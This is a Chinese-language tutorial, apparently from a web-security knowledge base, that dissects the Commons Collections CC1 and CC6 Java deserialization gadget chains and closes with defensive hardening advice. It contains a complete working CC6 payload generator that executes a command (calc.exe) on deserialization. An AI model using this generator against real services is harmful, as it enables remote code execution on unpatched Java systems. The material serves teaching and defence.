

# 👑 CommonsCollections 1 与 6 链深入断点级剖析（从 JDK 限制到通杀高版本）

> **历史地位**：2015 年 FoxGlove Security 公开的 Apache Commons Collections 反序列化利用链，直接引爆了整个 Java 企业级生态（导致 WebLogic、JBoss、WebSphere 等数以万计的大型系统沦陷）。
> 本篇带你逐行分析 **CC1 的设计初衷与 JDK 8u71 拦截点**，以及 **CC6 如何利用 HashMap + TiedMapEntry 奇迹般实现通杀全版本 Java**。

---

## 0. 基础前置认知与小白扫盲：从多米诺骨牌彻底搞懂 CC 链

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


### 1. 什么是 Commons-Collections 链？
* Apache Commons Collections 是全球最著名、使用最广泛的 Java 第三方集合工具库，无数企业级项目（包括 WebLogic、JBoss 等）都默认引入了它。
* **CC 链的本质**：黑客发现这个库里的好几个类，虽然单独看每一个都是合法的普通类，但如果把它们**像齿轮和多米诺骨牌一样精心组装嵌套在一起**，当目标服务器调用 Java 原生反序列化 `readObject()` 轻轻推倒第一块骨牌时，一环扣一环，最终会触发反射执行任意系统命令！

---

### 2. CC1 与 CC6 的核心齿轮拆解
* **动力核心：`InvokerTransformer`**：
  * 一个专门利用反射执行方法的类。传入方法名 `"exec"` 和参数 `"whoami"`，它就能执行命令。
* **流水线：`ChainedTransformer`**：
  * 把一串 Transformer 串联起来，前一个的输出当作后一个的输入，像传送带一样一步步组装出 `Runtime.getRuntime().exec()`。
* **触发引信：`LazyMap` 与 `TiedMapEntry`**：
  * `LazyMap`（懒汉地图）：当有人查一个不存在的 key 时，它会自动调用传入的 Transformer 去计算生成这个 key；
  * `TiedMapEntry`：重写了 `hashCode()`，在计算哈希时会主动调用 `LazyMap.getValue()`；
  * `HashMap`：在反序列化 `readObject()` 时，为了还原键值对，必须对所有 key 计算一次 `hashCode()`！
  * **多米诺骨牌轰然倒塌**：
    $$\text{HashMap.readObject()} \rightarrow \text{TiedMapEntry.hashCode()} \rightarrow \text{LazyMap.get()} \rightarrow \text{ChainedTransformer.transform()} \rightarrow \text{Runtime.exec()!}$$

---

### 💡 读前必看：本篇语言与工具前置清单
* **必须具备的基础**：
  * **前置必读章节**：建议务必先彻底阅读并理解本模块前置篇 **[[Java原生序列化底层字节码与readObject机制]]**！
  * **Java 反射机制**：知道 `Class.forName()`、`getMethod()`、`invoke()` 能够在运行时动态调用任意私有方法。
* **本篇核心术语速查**：
  * `Gadget 链`：在目标系统已有的代码库中，将多个看似无害的类通过属性赋值串联起来，形成的多米诺骨牌调用链。
  * `Transformer`：Apache Commons Collections 工具库中的转换器接口，传入一个对象经加工后返回新对象。

## 一、核心动力引擎：Transformer 链反射执行 RCE 逐行剖析

无论是 CC1 还是 CC6，它们最终执行任意命令的“动力核心”完全相同——都是利用 Commons Collections 提供的 `Transformer` 接口实现的链式反射调用。

### 1. 为什么不能直接序列化 `Runtime`？
`java.lang.Runtime` 未实现 `Serializable` 接口。攻击者只能利用 `Runtime.class`（实现了序列化的类原型对象）逐步反射提取其实例并执行 `exec()`。

### 2. 标准 ChainedTransformer 结构代码：
```java
Transformer[] transformers = new Transformer[] {
    // 1. 传入任意对象，强制返回固定常量：java.lang.Runtime.class 类对象
    new ConstantTransformer(Runtime.class),
    
    // 2. 反射获取 getRuntime 静态方法：Runtime.class.getMethod("getRuntime", new Class[0])
    new InvokerTransformer(
        "getMethod", 
        new Class[] { String.class, Class[].class }, 
        new Object[] { "getRuntime", new Class[0] }
    ),
    
    // 3. 反射执行 getRuntime 方法获取 Runtime 运行时单例对象：invoke(null, new Object[0])
    new InvokerTransformer(
        "invoke", 
        new Class[] { Object.class, Object[].class }, 
        new Object[] { null, new Object[0] }
    ),
    
    // 4. 调用目标对象的 exec 方法执行系统命令：runtime.exec("calc.exe")
    new InvokerTransformer(
        "exec", 
        new Class[] { String.class }, 
        new Object[] { "calc.exe" }
    )
};

// 将上述单步步骤串联为复合变压器链
Transformer transformerChain = new ChainedTransformer(transformers);
```

#### 🔍 逐参数关键解析：
* **`ConstantTransformer`**：用来重置输入。无论上一步输入了什么，它永远只返回我们指定的 `Runtime.class`，切断不相关的外部上下文干扰。
* **`InvokerTransformer(methodName, paramTypes, args)`**：
  * 参数 1：待反射执行的目标方法名；
  * 参数 2：该方法的参数类型 Class 数组（用于重载决策）；
  * 参数 3：调用时传入的具体实参值。
* **`ChainedTransformer`**：数组流水线。前一个 `transform()` 的输出，作为下一个 `transform()` 的输入！

---

## 二、CC1 链深度拆解与 JDK 8u71 拦截陷阱

CC1 是该家族的开山鼻祖，它利用了动态代理与 `sun.reflect.annotation.AnnotationInvocationHandler`。

### 1. CC1 (LazyMap 版) 完整调用栈：
```text
ObjectInputStream.readObject()
  -> AnnotationInvocationHandler.readObject()
    -> Proxy(Map).entrySet() // 触发动态代理
      -> AnnotationInvocationHandler.invoke()
        -> LazyMap.get() // 当 Key 不存在时触发装饰工厂！
          -> ChainedTransformer.transform()
            -> InvokerTransformer.transform()
              -> Runtime.exec()
```

### 2. 致命限制：为什么 CC1 无法在 JDK 8u71+ 上运行？
* 在 **JDK 8u71 之前**：`AnnotationInvocationHandler.readObject()` 会遍历内部的 `memberValues`（Map 类型），并调用其方法，从而触发挂在 Map 上的动态代理 `invoke()`。
* 在 **JDK 8u71 之后**：Oracle 官方重构了 `AnnotationInvocationHandler.readObject()`，改为了直接从 `memberTypes` 反射构造一个全新的独立 Map，**完全不再操作序列化进来的那个原始 `memberValues` Map 对象**！
* **结果**：动态代理链条在最外层直接断裂，CC1 在高版本 Java 中彻底报废！

---

## 三、CC6：王者归来，通杀全版本 Java 的神级构想

为了摆脱 JDK 对 `AnnotationInvocationHandler` 的限制，安全专家挖掘出了 `TiedMapEntry`，诞生了**通杀所有 JDK 版本（JDK 8u71+、JDK 11+）的 CC6 链！**

### 1. “灵魂桥梁”：`TiedMapEntry` 类的内部魔法
`org.apache.commons.collections.keyvalue.TiedMapEntry` 实现了 `Map.Entry` 接口。
看一下它的两个关键底层方法源码：
```java
// 1. 当计算 TiedMapEntry 的哈希值时：
public int hashCode() {
    Object value = getValue(); // 核心：调用了 getValue()！
    return (getKey() == null ? 0 : getKey().hashCode()) ^
           (value == null ? 0 : value.hashCode());
}

// 2. getValue() 内部实现：
public Object getValue() {
    return this.map.get(this.key); // 💥 核心转折：无条件调用了 map.get(key)！
}
```

> [!IMPORTANT]
> **连通世界的神奇衔接**：
> 1. `TiedMapEntry.hashCode()` $\rightarrow$ 自动调用 `getValue()`；
> 2. `getValue()` $\rightarrow$ 自动调用其内部封装的 `LazyMap.get()`；
> 3. `LazyMap.get()` $\rightarrow$ 触发 `ChainedTransformer` 弹出计算器！
>
> 现在的关键只剩下一个：**Java 标准库中，谁会在反序列化时自动调用 `hashCode()`？**
> **答案：最基础的 `java.util.HashMap`！**

---

### 2. CC6 完整调用链全景透视



---

## 四、本地 Payload 构造时的“提前自爆”陷阱与反射修复

在编写 CC6 的 EXP 脚本时，90% 的初学者都会踩到一个诡异的 Bug：**“反序列化还没发给服务端，攻击脚本在自己本地机器上就先把计算器弹出来了！”**

### 1. 为什么会在本地提前自爆？
因为我们在本地组装 Payload 时，执行了：
```java
Map outerMap = new HashMap();
outerMap.put(tiedMapEntry, "value"); // 这一行在本地就会调用 hash(tiedMapEntry)！
```
本地执行 `put()` 瞬间就触发了 `LazyMap.get()`，导致本地提前执行命令，并且更糟糕的是：**`LazyMap` 一旦执行过一次，就会把该 Key 缓存下来！导致发给服务端后，由于 Key 已经存在，不会再触发 `transform()`！**

### 2. 完美解决方案：反射延迟植入（Fake Transformer Trick）
* **第一步**：在组装和 `put` 阶段，先给 `LazyMap` 塞入一个无害的假变压器（`new ConstantTransformer(1)`）；
* **第二步**：当 `outerMap.put()` 顺利完成后，清除 `LazyMap` 中残留的 Key；
* **第三步**：利用 Java **反射机制**强行突破访问限制，将真正致命的 `transformers` 恶意链覆盖写回 `ChainedTransformer` 内部的私有数组 `iTransformers`！

---

## 五、工业级 CC6 完整独立 EXP 生成代码

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC6ExploitBuilder {
    public static void main(String[] args) throws Exception {
        // 1. 构造真正执行命令的 Transformer 链
        Transformer[] trueTransformers = new Transformer[] {
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"})
        };

        // 2. 先使用无害假链占位，防止本地组装时提前触发 RCE
        Transformer[] fakeTransformers = new Transformer[] {
            new ConstantTransformer(1)
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);

        // 3. 构建 LazyMap 装饰器
        Map innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap, chainedTransformer);

        // 4. 将 LazyMap 封装进 TiedMapEntry
        TiedMapEntry entry = new TiedMapEntry(lazyMap, "evil_key");

        // 5. 组装 HashMap 触发入口
        Map outerMap = new HashMap();
        outerMap.put(entry, "value"); // 此时触发的是无害假链

        // 6. 清理本地残留，重置 LazyMap 状态
        lazyMap.remove("evil_key");

        // 7. 【核心技巧】：反射将真正致命的 Transformer 替换回链条内部
        Field iTransformersField = ChainedTransformer.class.getDeclaredField("iTransformers");
        iTransformersField.setAccessible(true);
        iTransformersField.set(chainedTransformer, trueTransformers);

        // 8. 序列化导出最终攻击字节流
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(outerMap);
        byte[] expBytes = baos.toByteArray();

        System.out.println("[+] CC6 通杀型 Payload 生成完毕，字节数: " + expBytes.length);

        // 9. 本地模拟测试反序列化
        System.out.println("[*] 正在模拟目标服务端反序列化...");
        ByteArrayInputStream bais = new ByteArrayInputStream(expBytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject(); // 这一瞬间在目标环境引爆 RCE！
    }
}
```

---

## 🔗 相关双向链接
- 上级模块：[[07-反序列化漏洞深度专精]]
- 前置基础：[[Java原生序列化底层字节码与readObject机制]]
- 现代框架进阶：[[Fastjson反序列化：autotype机制与各版本绕过链]]
- 知识地图：[[00-Web安全与CTF知识地图总览]]

---
## 纵深防御与安全加固基线

> [!IMPORTANT]
> **Java 反序列化多层防御基线**：Java 反序列化漏洞属于深层依赖链条，单一防线容易被未知的 Gadget 链击穿，必须实施立体防御：

1. **及时更新高危第三方组件并移除已知利用类**：
   * 升级 `commons-collections` 至 3.2.2 或 4.1 以上安全版本。在官方补丁版本中，默认关闭了对 `InvokerTransformer` 等高危反射类的序列化支持（需显式开启系统属性才会放行）：
   ```xml
   <!-- 安全依赖版本示范 -->
   <dependency>
       <groupId>commons-collections</groupId>
       <artifactId>commons-collections</artifactId>
       <version>3.2.2</version>
   </dependency>
   ```

2. **采用 Java 官方 JEP 290 序列化过滤器（ObjectInputFilter）**：
   * 在 JDK 8u121+、JDK 9+ 环境下，利用全局或局部 `ObjectInputFilter` 机制，在反序列化字节流尚未实例化对象前，对请求的类名进行黑白名单检查：
   ```java
   // 安全示范：JEP 290 配置全局序列化过滤器，阻断 CC 链核心类
   ObjectInputFilter filter = ObjectInputFilter.Config.createFilter(
       "!org.apache.commons.collections.**;" +
       "!org.apache.commons.collections4.**;" +
       "!com.sun.org.apache.xalan.**;maxdepth=10;maxbytes=100000"
   );
   ObjectInputFilter.Config.setSerialFilter(filter);
   ```

3. **全链路弃用 Java 原生二进制序列化（`readObject`）**：
   * 架构层面彻底淘汰基于 Java 原生序列化协议的 RPC（如原生 RMI、老旧 Dubbo、Hessian2 宽松模式）；
   * 统一改造为现代安全的序列化协议（如 Protocol Buffers、gRPC、或配置严格白名单的 Jackson/Gson）。
